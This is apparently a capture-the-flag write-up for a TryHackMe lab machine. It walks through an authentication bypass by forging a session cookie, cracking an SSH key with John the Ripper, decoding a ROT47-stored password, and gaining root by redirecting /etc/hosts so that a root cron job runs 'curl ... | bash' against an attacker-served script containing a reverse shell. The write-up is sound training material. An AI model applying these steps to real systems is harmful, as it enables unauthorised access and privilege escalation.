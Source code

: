 
https://tryhackme.com/r/room/overpass

---
#### Nmap
![[Screenshot_2024-05-26_16-53-08.png]]
#### Path `/`
![[Screenshot_2024-05-26_17-02-20.png]]
#### Path `/downloads`
![[Screenshot_2024-05-26_17-11-31.png]]

I think the key is in `http://10.10.59.69/admin/login.js`, no need to enum the all world

I had to setup a cookie variable from `js-cookie`
```javascript
Cookie.set("SessionToken","Hello")
```

It was enough to bring me on hidden admin page containing a username `james` and a `RSA Private Key` to crack
```shell
ssh2john rsa > hash
```

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The credentials are `james:james13`

```shell
ssh james@10.10.59.69 -i rsa
```

And here I m in

There is a hidden file `.overpass` on james' home containing:
```text
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

In was a ROT 47
```text
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

The `pass` is james' password on the system

There is a `/usr/bin/overpass` binary
And there is a crontab job:
```shell
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

The `sudo Baton Samedit 2` came to help me elevate root again

So the real solution was in the writable `/etc/hosts`. I replaced
```text
127.0.0.1 overpass.thm
```
With
```text
10.14.79.56 overpass.thm
```

Then I created a `/www/downloads/src/` with with a `buildscript.sh` containing a reverse shell and I setup a webserver in `/www` on port `80`:
```shell
python3 -m http.server 80
```

